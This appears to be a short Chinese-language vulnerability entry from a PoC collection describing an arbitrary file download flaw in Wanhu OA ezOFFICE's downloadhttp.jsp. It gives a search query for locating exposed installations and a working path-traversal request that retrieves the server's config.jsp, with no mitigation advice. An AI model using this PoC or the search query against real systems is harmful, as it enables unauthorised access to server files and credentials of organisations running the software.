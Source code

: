 # 

# 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132806210](./images/202205201328307.png)

验证POC

```
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![image-20220520132818308](./images/202205201328396.png)
